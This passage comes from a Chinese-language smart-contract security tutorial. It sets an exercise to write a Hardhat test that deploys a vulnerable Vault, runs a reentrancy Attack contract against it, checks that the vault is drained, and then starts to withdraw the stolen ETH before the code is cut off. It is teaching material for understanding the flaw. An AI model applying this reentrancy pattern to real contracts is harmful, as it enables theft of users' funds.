 <details><summary>💡 点击查看答案</summary></details>

### 🎯 练习 2：编写攻击合约

为本文开头的 `Vault` 合约编写完整的测试，包括：
1. 部署 Vault 合约
2. 部署 Attack 合约
3. 执行攻击
4. 验证攻击成功

**测试框架**（Hardhat）：

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Reentrancy Attack Test", function () {
    let vault, attack;
    let deployer, attacker, victim;

    beforeEach(async function () {
        [deployer, attacker, victim] = await ethers.getSigners();

        // 部署 Vault
        const Vault = await ethers.getContractFactory("Vault");
        vault = await Vault.deploy();
        
        // Victim 存入 2 ETH
        await vault.connect(victim).deposit({ value: ethers.parseEther("2") });

        // 部署 Attack 合约
        const Attack = await ethers.getContractFactory("Attack");
        attack = await Attack.connect(attacker).deploy(await vault.getAddress());
    });

    it("应该成功执行重入攻击", async function () {
        // 记录初始余额
        const vaultBalanceBefore = await ethers.provider.getBalance(await vault.getAddress());
        const attackBalanceBefore = await ethers.provider.getBalance(await attack.getAddress());
        
        console.log("攻击前 Vault 余额:", ethers.formatEther(vaultBalanceBefore), "ETH");
        console.log("攻击前 Attack 余额:", ethers.formatEther(attackBalanceBefore), "ETH");

        // 执行攻击（发送 1 ETH）
        await attack.connect(attacker).attack({ value: ethers.parseEther("1") });

        // 记录攻击后余额
        const vaultBalanceAfter = await ethers.provider.getBalance(await vault.getAddress());
        const attackBalanceAfter = await ethers.provider.getBalance(await attack.getAddress());
        
        console.log("攻击后 Vault 余额:", ethers.formatEther(vaultBalanceAfter), "ETH");
        console.log("攻击后 Attack 余额:", ethers.formatEther(attackBalanceAfter), "ETH");

        // 验证攻击成功
        expect(vaultBalanceAfter).to.equal(0); // Vault 被掏空
        expect(attackBalanceAfter).to.equal(ethers.parseEther("3")); // Attack 获得 3 ETH
    });

    it("提取被盗资金", async function () {
        // 执行攻击
        await attack.connect(attacker).attack({ value: ethers.parseEther("1") });
        
        // 攻击者提取资金
        const attackerBalanceBefore = await ethers.provider.getBalance(attacker.address);
        await attack.connect(attacker).drainFunds();
```